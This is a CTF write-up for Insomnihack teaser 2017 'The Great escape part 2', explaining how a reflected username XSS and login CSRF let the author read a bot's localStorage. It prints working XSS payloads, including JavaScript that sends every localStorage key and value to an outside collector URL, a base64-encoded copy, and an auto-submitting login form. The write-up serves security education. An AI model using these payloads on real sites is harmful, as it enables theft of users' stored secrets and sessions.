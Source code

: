 ```yaml
---
author: AnirudhAnand
layout: post
title: Exfiltrating remote localStorage data with XSS - Insomnihack teaser 2017 "The Great escape part 2" web 200 writeup
categories:
- ctf
summary: Exfiltrating data from remote browser localStorage using XSS (Insomnihack teaser 2017 web 200 writeup)
description: Exfiltrating data from remote browser localStorage using XSS (Insomnihack teaser 2017 web 200 writeup)
---
```


## Introduction

After completing the first step of the challenge (Basically a forensics pcapc challenge), we got a link along with an email from inside the pcap.

## Challenge Description

>--===============5398474817237612449==
>
>Content-Type: text/plain; charset="us-ascii"
>
>MIME-Version: 1.0
>
>Content-Transfer-Encoding: 7bit&nbsp;
>
>Hello GR-27,
>
>
>I'm currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud >(https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch  >to install my consciousness and have a real base of operations.
>
>
>I'll be checking this mail box every now and then if you have any information for me. I'm always interested in learning, so >if you have any good links, please send them over.
>
>Rogue
>
>
>Challenge link: https://ssc.teaser.insomnihack.ch/

The last sentence of the email was particulalry interesting as it says `if you have any good links, please send them over`, feels like XSS isn't it ?

A quick nmap scan of the challenge site shows us that there is an SMTP service running on port 25 and we can literally send emails by simply connecting to it (no authentication) ! I tried to send a simple email along with a link to my VPS and it seems the service is automatically connecting back to it. cool ! So now we know how can we send an email to our user, lets try to find out some XSS shall we ?

If we visit the challenge link, we are greeted with a cloud storage site where we can register accounts, login and even upload files. But one strange thing I noticed is an api call to `/api/user.php?action=getUser` which returns the data `{"status":"username"}` which looks like a json response but one thing was quite interesting, the content type returned was `text/html`. Why would a json response has a content type text/html ? Time to inject javaScript in username ;)

# Solution:

If we register a username `lol<BODY ONLOAD=alert(1)>lol` and after logging in, if we visit the api reponse, we could successfully execute javaScript on the context of the site. But the problem is, it was an XSS post authentication and is usually difficult to exploit but I couldn't find an XSS on any other places so I guess we need to use this.

The problem uses session keys that includes a private key which is stored in our localStorage so that even before the file(which we are trying to upload) is send from the browser, its encrypted. So my guess was that the flag will be located within the localStorage of the bot visting our link.

So inshort this is what we should do to steal the contents of the localStorage:

1. Create an HTML file which initiates a POST request to the challenge login link with an already registered username that is vulnerable to XSS.

2. Submitting a post request to `/api/user.php` will redirect us to the `/api/user.php?action=getUser` which returns the username with XSS payload along with a content type 'text/html'. Perfect !

So lets write the javascript which can help us steal the localStorage contents:

{%highlight javascript lineos %}

<script>
for(var i=0, len=localStorage.length; i<len; i++) {
var key = localStorage.key(i);
var value = localStorage[key];
var request = new XMLHttpRequest();
var url = 'https://requestb.in/qat9okqa?key=' + key + '&value=' + value;
request.open('GET', url, false);
request.send();
}
</script>

{%endhighlight%}

Ofcourse sending the highligted javascript just like that would mess up the payload as some characters are blocked, filtered or escaped. So the best way to send the data is to base64 encode it and then do a `document.write(base64_decode(payload))`.

So I created a new user with username `lol<BODY ONLOAD=document.write(atob('BASE64 encoded payload'));>lol` and then I created an html file on my server which simply submits this credentials to the challenge server which redirects the bot to the XSS vulnerable response and our payload will execute !

So I created an html file on my server with the following contents:

{%highlight javascript lineos %}

<html>
    <body>
    <form name="myForm" id="myForm" action="https://ssc.teaser.insomnihack.ch/api/user.php" method="POST">
        <input name="action" value="login" />
        <input name="name" value="" />
        <input name="password" value="" />
        <input type="submit" value="Submit" />
    </form>

    <script>
    document.myForm.name.value = "lol<BODY ONLOAD=document.write(atob('PHNjcmlwdD4NCmZvcih2YXIgaT0wLCBsZW49bG9jYWxTdG9yYWdlLmxlbmd0aDsgaTxsZW47IGkrKykgew0KdmFyIGtleSA9IGxvY2FsU3RvcmFnZS5rZXkoaSk7DQp2YXIgdmFsdWUgPSBsb2NhbFN0b3JhZ2Vba2V5XTsNCnZhciByZXF1ZXN0ID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7DQp2YXIgdXJsID0gJ2h0dHBzOi8vcmVxdWVzdGIuaW4vcWF0OW9rcWE/a2V5PScgKyBrZXkgKyAnJnZhbHVlPScgKyB2YWx1ZTsNCnJlcXVlc3Qub3BlbignR0VUJywgdXJsLCBmYWxzZSk7DQpyZXF1ZXN0LnNlbmQoKTsNCn0NCjwvc2NyaXB0Pg=='));>lol";
    document.myForm.password.value = "lol";
    document.myForm.submit();
    </script>

    </body>
</html>

{%endhighlight%}

So everything we need is complete right now and one last thing we need to do is to steal the flag:

1. Connect to the port `25` where the smtp service is running, send an email along with the link to the above HTML file.

2. When the bot parses the HTML file, it automatically sends the login request to the `/api/user.php` with an already registered username (along with XSS payload) and a password.

3. It redirects the bot to `/api/user.php?action=getUser` which contains the username reflected along with the XSS payload and it executes on the context of the site.

4. The executed javascript will help us get the contents of the `localStorage` and helps us exfiltrate it using XMLHttpRequest().

5. The first value inside the `localStorage` is the flag that we need :)

## References

1. [Sending email with Netcat](http://www.linuxjournal.com/content/sending-email-netcat)

2. [Everything you need to know about XMLHttpRequest()](https://blog.0daylabs.com/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest)
